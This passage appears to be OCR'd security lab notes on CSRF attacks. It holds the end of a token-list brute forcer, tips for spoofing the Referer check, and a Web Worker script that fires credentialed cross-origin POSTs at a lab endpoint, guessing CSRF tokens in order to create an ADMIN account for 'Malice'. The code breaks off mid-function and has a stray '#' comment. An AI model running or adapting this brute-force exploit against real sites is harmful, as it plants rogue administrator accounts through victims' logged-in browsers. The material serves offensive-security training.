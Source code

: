 ```js
var tokens = document.getElementById('tokens').value.replace(/\s+/gm, '\n').split('\n');
tokens = tokens.filter(Boolean); # remove empty values

bruteLoop (tokens);

</script>
</body>
</html>
```


#### Test the Referer value
- Test with subdomain 
- Test in the file name text
- In this case, we need to change the file name to the target.url
- So the referer can recognize as a trusted sender


### nivel 2 Brute forcer with Workers
brute.js
```js
self.addEventListener('message', function (e) {

   var tokens = e.data.tokens;

   function bruteLoop(TList) {
      for (var i = 0; i < TList.length; i++) {
         console.info("Testing: " + TList[i]);
         XHRPost(TList[i]);
      }

      Terminator();
   }

   function XHRPost(tVal) {
      var http = new XMLHttpRequest();
      var url = "http://{LABID}.csrf.labs/add_user.php";

      var token = tVal;

      params = {
         "name": "Malice",
         "surname": "Smith",
         "email": "malice@hacker.site",
         "role": "ADMIN",
         "submit": "",
         "CSRFToken": token,
      };

      http.open("POST", url, true);
      http.withCredentials = 'true';

      // Send the proper header information along with the request
      http.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
      http.onreadystatechange = function () {
         if (http.readyState > 1) { // We don't care about responses
            // console.warn("Aborted " + token + " with status " + http.readyState);
            // http.abort();
         }
      };

      // Serialize the data without using JQuery 
      queryParams = Object.keys(params).reduce(function (a, k) {
         a.push(k + '=' + encodeURIComponent(params[k]));
```